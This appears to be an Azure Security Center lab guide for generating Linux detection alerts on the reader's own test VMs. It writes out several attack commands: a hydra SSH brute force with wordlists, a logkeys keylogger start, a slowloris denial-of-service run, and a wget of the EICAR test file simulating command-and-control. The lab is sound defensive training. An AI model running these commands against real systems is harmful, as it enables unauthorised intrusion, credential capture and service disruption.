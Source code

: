 ﻿# 04 - Linux Detections
*The following lab is based on the* <a href="https://gallery.technet.microsoft.com/Azure-Security-Center-0ac8a5ef" target="_blank">Linux Detections playbook</a> *written by Yuri Diogenes. This playbook provides a more comphrensive explanation and simulations than is covered in this lab*<br>

In this lab we will explore the new Linux detections in ASC by executing steps in the Linux VM(s) that you have deployed earlier. You will connect to your Linux VM(s) leveraging SSH. In case you don't have a SSH client installed, you can install the free edition of MobaXterm <a href="https://mobaxterm.mobatek.net/download.html" target="_blank">here</a>.<br>

#### 1 - Create a Kali Linux VM
1. In the Azure portal, click on **Create a resource** and search for **Kali Linux** and create the VM
2. Wait for the VM to deployed

#### 2 - Create Linux users 
1. Connect to the Linux VM with SSH that you have deployed previously, using your favorite SSH tool
2. Create 5 users with the names user1, user2, user3, user4, user5, by leveraging the following Linux command:
```powershell
sudo adduser <userName>
```
3. Replace "userName" by user1, user2, etc.<br> Set the password to "mypassword1" for user1, "mypassword2" for user2, etc.

#### 4 - Excuting a brute force attack
1. Connect to the Kali Linux VM with SSH
2. Navigate to the folder **/usr/share/wordlists**
3. Upload the **<a href="https://raw.githubusercontent.com/tianderturpijn/Azure-Security-Center/master/Labs/04%20-%20Linux%20Detections/Files/lab_users.txt" target="_blank">lab_users.txt</a>** and **<a href="https://raw.githubusercontent.com/tianderturpijn/Azure-Security-Center/master/Labs/04%20-%20Linux%20Detections/Files/lab_pass.txt" target="_blank">lab_pass.txt</a>** files to this folder by executing:
```powershell
sudo wget https://raw.githubusercontent.com/tianderturpijn/Azure-Security-Center/master/Labs/04%20-%20Linux%20Detections/Files/lab_users.txt
```
and
```powershell
sudo wget https://raw.githubusercontent.com/tianderturpijn/Azure-Security-Center/master/Labs/04%20-%20Linux%20Detections/Files/lab_pass.txt
```
4. Copy the IP address from the Linux VM that you have deployed earlier. We are going to brute force attack this VM
5.  Type the command below in your Kali VM, and replace "**IP**" for **yourLinuxVM** public IP address
```powershell
hydra -I -L lab_users.txt -P lab_pass.txt <IP> -t 4 ssh
```
6.  Wait until it finishes, and the result should show you the username and the password that was found

#### 5 - Simulate capturing credentials and other useful information
1.  Run the command below to simulate an attacker that is trying to start logkeys to set up the system to capture credentials and other useful information: 
```powershell
logkeys --start
```
***Note**:<br> Ignore the error message if you don't have logkeys installed. Security Center will detect this attack anyway*

#### 6 - Simulate an attack against a web server
Assuming that the attacker has already performed some internal recon using nmap, you are going to simulate an attack against a web server
1. Run the command below:
```powershell
perl slowloris.pl -dns server.contoso.com
```
***Note**:<br> Ignore the error message if you don't have this script on your system. Security Center will detect this attack anyway*

#### 7 - Command & Control (C2) simulation
Attackers usually will communicate with command and control (C2) to transfer data or to download more  malicious software.
For this example, you will download the EICAR malware test file using WGET for the IP address.  The commands that follows must be executed in VM2 (Ubuntu VM):<br><br>

1. First, obtain the IP address of the target:
```powershell
nslookup eicar.com 
```
2. Now replace the XXX.XXX.XXX.XXX on the command below with the IP obtained from nslookup: 
```powershell
wget http://XXX.XXX.XXX.XXX/download/eicar.com
```
***Note**:<br>  if you have issues download eicar.com, try download eicar.txt (same command line, just change the extension).*

#### 8 - Review Security Center alerts
1. Navigate to the **Security Center>Security Alerts** blade (under Threat Protection)
2.  Organize the alerts by date by clicking on the Date column, and review the alerts that were generated during this lab, it should look similar like this:


